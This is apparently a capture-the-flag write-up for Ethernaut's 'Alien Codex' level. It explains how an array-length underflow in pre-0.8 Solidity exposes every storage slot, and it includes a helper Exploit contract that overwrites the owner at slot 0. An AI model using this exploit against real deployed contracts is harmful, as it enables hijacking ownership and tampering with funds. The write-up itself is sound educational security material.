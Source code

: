 # Level 19: Alien Codex

# Objective:

Claim ownership of the contract.

# Explaination:

In solidity dynamic array store their lenghth at a specific storage slot and its actual elements are stores at the keccak256 slots. Lets say that the dynamic array is stored at slot i. What this means is that the length of the array is stored in slot i and the actual elements are stored in slots starting from keccak256(p), and then the next element is stored in the next i.e keccak256(i) + 1, keccak256(i) + 2, and so on.

# Vulnerability:

In the previous versions of Solidity prior to 0.8.0, arithmetic operations on unsigned integers do not automatically check for underflows or overflows. If you decrease the length of an empty dynamic array, it underflows, setting the length to 2^256 - 1, which is the maximum value for a uint256.
The underflow effectively makes the array's length encompass the entire storage space of the contract, allowing us to access or modify any storage slot via array indexing.

# Solution:

First call  makeContact() function so that the contact flag sets to true.
Next, invoke the retract() function to underflow the codex array's length.
Next we have to calculate the index where the owner variable is sitting.
The owner variable is typically stored at slot 0. To overwrite it, you need to calculate the index in the codex array that corresponds to slot 0. Since the elements of codex start at keccak256(1), the index that maps to slot 0 is:

index = 2^256 - keccak256(1)
By writing to codex[index], you effectively write to storage slot 0, allowing you to overwrite the owner variable.

Here is the helper contract:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exploit {
    function overwriteOwner(address targetContract, address newOwner) public {
        uint256 index = type(uint256).max - uint256(keccak256(abi.encode(uint256(1)))) + 1;
        bytes32 data = bytes32(uint256(uint160(newOwner)));
        AlienCodex(targetContract).revise(index, data);
    }
}

interface AlienCodex {
    function revise(uint256 i, bytes32 _content) external;
}
```
# Key Takeaways:

An underflow in the array means its length becomes extremely large, so large that it covers the entire storage space of the contract. This lets you access and modify any storage slot just by using an index in the array. Essentially, it's like accidentally opening access to everything in storage when you only meant to work with a specific part of it. It’s a serious issue in smart contracts because it can lead to unintended data manipulation.

